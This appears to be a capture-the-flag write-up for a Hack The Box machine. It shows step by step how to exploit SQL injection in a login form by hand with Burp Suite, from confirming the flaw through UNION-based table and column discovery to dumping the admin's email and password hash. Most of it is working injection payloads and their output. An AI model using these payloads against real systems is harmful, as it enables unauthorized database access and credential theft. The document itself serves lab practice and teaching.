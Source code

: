 **A tutorial for manually exploiting sqli in the sign in page without sqlmap but with burpsuite**

![image](https://user-images.githubusercontent.com/87831546/142857492-a15dd841-8ef9-47b4-b074-ff0827e1c11d.png)

1) Confirm sql injection ('# comments out any query after it, or you can use -- -):
```
email=a@a.com'#&password=esdfs
```
![image](https://user-images.githubusercontent.com/87831546/142857635-483e64f9-b383-48e3-a81a-ae49017f7460.png)

2) Find number of columns with ORDER BY, increasing the order of numbers until we get an error
```
email=a@a.com' order by 4-- -&password=esdfs
```
order by 4 works, but order by 5 gives us an error telling us that there are 4 columns
![image](https://user-images.githubusercontent.com/87831546/142857961-b7333efa-0fae-47b9-b8fe-cbe2a87aa4d5.png)
![image](https://user-images.githubusercontent.com/87831546/142858071-7ec1ede4-8bae-4831-aef8-bada640b2bd2.png)

3) Find columns with useful data type to see if we can see the outcome of queries. We find that only the last column displays output to use
```
email=a@.com' UNION SELECT NULL,NULL,NULL,'test'-- -&password=esdfs
```
![image](https://user-images.githubusercontent.com/87831546/142858377-8c3d41cc-6858-42b1-8b05-706eb6dfa9e5.png)

4) Find database names - gives us an interesting table name called 'user'
```
email=a@a.com' UNION SELECT NULL,NULL,NULL,table_name FROM information_schema.tables -- -&password=esdfs
```
![image](https://user-images.githubusercontent.com/87831546/142858532-ceff2ce1-5b8b-47dc-97e4-5eba5ef5e9a5.png)

5) Find columns for the user data (id, email, password, name)
```
email=a%40a.com' UNION SELECT NULL,NULL,NULL,column_name FROM information_schema.columns WHERE table_name='user'-- -&password=esdfs
```
![image](https://user-images.githubusercontent.com/87831546/142858926-da72f95e-3649-49e9-8ad8-c8b304877291.png)


6) Find that an admin user exists
```
email=a%40a.com' UNION SELECT NULL,NULL,NULL,name FROM user-- -&password=esdfs
```
(returns two users, admin and a. a is a user i registered on the site)
![image](https://user-images.githubusercontent.com/87831546/142859633-5bfb8a1e-ed6c-44b0-9ca3-90b23986dad3.png)

7) Dump the email and password from the admin user
```
email=a%40a.com' UNION SELECT NULL,NULL,NULL,email FROM user WHERE name='admin'-- -&password=esdfs
```
![image](https://user-images.githubusercontent.com/87831546/142859858-88a6fcae-13dc-4b35-bf97-134547a10047.png)

```
email=a%40a.com' UNION SELECT NULL,NULL,NULL,password FROM user WHERE name='admin'-- -&password=esdfs
```
![image](https://user-images.githubusercontent.com/87831546/142859540-67379753-b541-47ce-a866-2e2b1f81f0ce.png)

And we get the same data that sqlmap gave us!
```
+------+---------------------+--------+----------------------------------+
| id   | email               | name   | password                         |
+------+---------------------+--------+----------------------------------+
| 1    | admin@goodgames.htb | admin  | 2b22337f218b2d82dfc3b6f77e7cb8ec |
+------+---------------------+--------+----------------------------------+
```

One thing to note is that all results seem to strangely precede with an 'a', just miss this out of all results
